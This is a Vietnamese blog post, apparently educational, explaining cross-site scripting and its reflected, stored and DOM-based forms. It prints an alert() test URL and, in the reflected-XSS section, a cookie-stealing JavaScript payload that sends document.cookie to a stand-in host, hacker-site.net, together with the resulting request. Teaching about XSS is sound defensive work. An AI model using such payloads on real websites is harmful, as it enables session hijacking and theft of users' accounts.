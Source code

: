 ```yaml
---
layout: post
title: Cross Site Scripting - XSS Attack
description: "Attack Method: XSS (Cross Site Scripting)"
headline: 
modified: 2018-02-13
category: network
tags: [XSS]
imagefeature: cover/macos/008.jpg
mathjax:
chart:
share: true
# comments: true
# featured: true
highlight: true
---
```


Attack Method: XSS (Cross Site Scripting)

Language: Vietnamese

## XSS - Cross-Site Scripting
Cross-Site Scripting (XSS) là một trong những kĩ thuật tấn công phổ biến nhất hiên nay, đồng thời nó cũng là một trong những vấn đề bảo mật quan trọng đối với các nhà phát triển web và cả những người sử dụng web. Bất kì một website nào cho phép người sử dụng đăng thông tin mà không có sự kiểm tra chặt chẽ các đoạn mã nguy hiểm thì đều có thể tiềm ẩn các lỗi XSS.

### Giới thiệu
Cross-Site Scripting hay còn được gọi tắt là XSS (thay vì gọi tắt là CSS để tránh nhầm lẫn với CSS-Cascading Style Sheet của HTML) là một kĩ thuật tấn công bằng cách chèn vào các website động (ASP, PHP, CGI, JSP …) những thẻ HTML hay những đoạn mã script nguy hiểm có thể gây nguy hại cho những nạn nhân sử dụng.

### Cách hoạt động
Lỗi này xảy ra khi ứng dụng web thu nhận các dữ liệu nguy hiểm được nhập từ hacker. Một website thường chứa các link, thông qua các link này hacker có thể chèn các đoạn code vào và khi người dùng nào đó sử dụng link này thì coi như 99% là chết, hacker có thể thông qua lỗi này để chèn code vào site hay link để lấy các thông tin quan trọng từ nạn nhân

Phụ thuộc vào mục đích của hacker, những đoạn Javascript được chèn vào để lấy những thông tin như:

+ Cookie: hacker có thể lấy được cookie của người dùng và dùng những thông tin trong cookie để giả mạo phiên truy cập hoặc lấy những thông tin nhạy cảm khác được lưu trong cookie.
+ Keylogging: hacker có thể ghi lại những thao tác gõ phím của người dùng bằng cách sử dụng sự kiện trong Javascript và gửi tất cả những thao tác gõ phím đó về cho hắn để thực hiện những mục đích như đánh cắp các thông tin nhạy cảm, lấy mật khẩu truy cập website hoặc mã số thẻ tín dụng…
+ Phishing: hacker có thể thay đổi giao diện của website bằng cách thay đổi cấu trúc HTML trong trang web để đánh lừa người dùng. Hacker có thể tạo ra những form đăng nhập giả nhằm lừa người dùng đăng nhập vào để đánh cắp mật khẩu.

Sau đó các thông tin này được gửi tới cho hacker . Cách thường dùng của hacker là mã hoá các phần nguy hiểm của link ( đã chèn code) thành kiểu HEX ( hoặc có thể là các hình thức khác ) để làm cho nạn nhân ít nghi ngờ khi click vào cái link nguy hiểm đó . Sau đó là tìm cách nào đó để cho nạn nhân chịu click vào cái link đó.

Hầu hết các ứng dụng web hiện nay dùng cookie để kết hợp 1 tài khoản duy nhất cho 1 người dùng nào đó , nghĩa là cookie của người nào người đó dùng . Các webmail , web bán hàng , nhà băng , … đa số đều dùng cookie với mục đích chứng thực ngừơi dùng , và đây là cái mà hacker cần.

### Vi dụ
Ví dụ url có chứp đoạn mã script
```html
 http://www.example.com/search.cgi?query=<script>alert(‘Website đang bị lỗi XSS!’);</script>.
```
Xuất hiện alert => bị lỗ hổng XSS

## Phân loại XSS
Phân loại: Có 3 loại Reflected XSS, Stored XSS và DOM-based XSS

### Reflected XSS
Ở kịch bản này, hacker sẽ gửi cho nạn nhân một URL có chứa đoạn mã nguy hiểm. Nạn nhân chỉ cần gửi request đến URL này thì hacker sẽ có được kết quả mong muốn. Cụ thể:
1. Người dùng đăng nhập web và giả sử được gán session: 
```
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4
```
2. Bằng cách nào đó, hacker gửi được cho người dùng URL:
```
http://example.com/name=var+i=new+Image;+i.src=”http://hacker-site.net/”%2bdocument.cookie;
```
Giả sử `example.com` là website nạn nhân truy cập, `hacker-site.net` là trang của hacker tạo ra
3. Nạn nhân truy cập đến URL trên
4. Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request(đoạn javascript của hacker)
5. Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript
6. Đoạn javascript mà hacker tạo ra thực tế như sau: 
```js
var i = new Image; i.src = 'http://hacker-site.net/' + document.cookie;
```
Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:
```
GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1
Host: hacker-site.net
```
7. Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng sẽ bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.

### Stored XSS
Khác với Reflected tấn công trực tiếp vào một số nạn nhân mà hacker nhắm đến, Stored XSS hướng đến nhiều nạn nhân hơn. Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào cơ sở dữ liệu (ở đây tôi dùng khái niệm này để chỉ database, file hay những khu vực khác nhằm lưu trữ dữ liệu của ứng dụng web). Ví dụ như các form góp ý, các comment … trên các trang web.

Với kỹ thuật Stored XSS , hacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước.
+ Đầu tiên hacker sẽ thông qua các điểm đầu vào (form, input, textarea…) không được kiểm tra kỹ để chèn vào CSDL các đoạn mã nguy hiểm.
+ Tiếp theo, khi người dùng truy cập vào ứng dụng web và thực hiện các thao tác liên quan đến dữ liệu được lưu này, đoạn mã của hacker sẽ được thực thi trên trình duyệt người dùng.

### DOM Based XSS
DOM Based XSS là kỹ thuật khai thác XSS dựa trên việc thay đổi cấu trúc DOM của tài liệu, cụ thể là HTML. Chúng ta cùng xem xét một ví dụ cụ thể sau.

Một website có URL đến trang đăng ký như sau:
```
http://example.com/register.php?message=Please fill in the form
```

Khi truy cập đến thì chúng ta thấy một Form rất bình thường. Tuy nhiên nếu đổi thành
```
http://example.com/register.php?message=<label>Gender</label><div class="col-sm-4">MaleFemale</div>function show(){alert();}
```
Người dùng sẽ chẳng chút nghi ngờ với một form “bình thường” như thế này, và khi lựa chọn giới tính, Script sẽ được thực thi


## Tham khảo


[https://techtalk.vn/ki-thuat-tan-cong-cross-site-scripting.html](https://techtalk.vn/ki-thuat-tan-cong-cross-site-scripting.html)

[https://labs.septeni-technology.jp/security/tim-hieu-ve-lo-hong-cross-site-scripting/](https://labs.septeni-technology.jp/security/tim-hieu-ve-lo-hong-cross-site-scripting/)
